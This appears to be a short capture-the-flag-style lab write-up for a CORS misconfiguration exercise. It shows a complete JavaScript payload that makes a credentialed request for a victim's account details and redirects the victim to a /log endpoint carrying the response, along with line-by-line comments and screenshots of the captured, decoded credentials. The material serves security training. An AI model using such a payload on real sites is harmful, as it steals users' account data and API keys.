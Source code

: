 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**The script does the following:**
		// Create an XMLHttpRequest instance.   
		// Set the event handler that will be called when the response is received.   
		// opening a GET request to the URL to retrieve account details   
		// Sending cookies and HTTP authentication information in the request   
		// Sending the request   
		// Event handler function called when a response is received from the server   
		// forwarding the current page to a log file with the received response text as parameter   
	
2.After supposedly executing the script on victims machine his credentials get logged:     

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
